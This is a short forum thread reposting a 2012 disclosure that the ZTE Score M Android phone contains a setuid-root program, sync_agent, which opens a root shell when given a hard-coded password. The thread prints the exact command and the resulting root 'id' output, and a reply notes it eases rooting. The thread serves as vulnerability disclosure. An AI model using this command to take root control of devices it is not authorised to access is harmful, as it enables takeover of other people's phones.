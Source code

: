 ## ZTE Score M default backdoor
Posted by **XlogicX** on Thu May 17th, 2012 03:38:13 AM

<!-- m --><a class="postlink" href="http://pastebin.com/wamYsqTV">http://pastebin.com/wamYsqTV</a><!-- m -->

Contents of the paste:

[code:3gdsead2]The ZTE Score M is an Android 2.3.4 (Gingerbread) phone available in the United States on MetroPCS, made by Chinese telecom ZTE Corporation.

There is a setuid-root application at /system/bin/sync_agent that serves no function besides providing a root shell backdoor on the device.  Just give the magic, hard-coded password to get a root shell:

$ sync_agent ztex1609523
# id
uid=0(root) gid=0(root)

Nice backdoor, ZTE.[/code:3gdsead2]

--------------------------------------------------------------------------------

Posted by **PHLAK** on Thu May 17th, 2012 02:26:39 PM

On the plus side, this makes rooting the phone much easier!
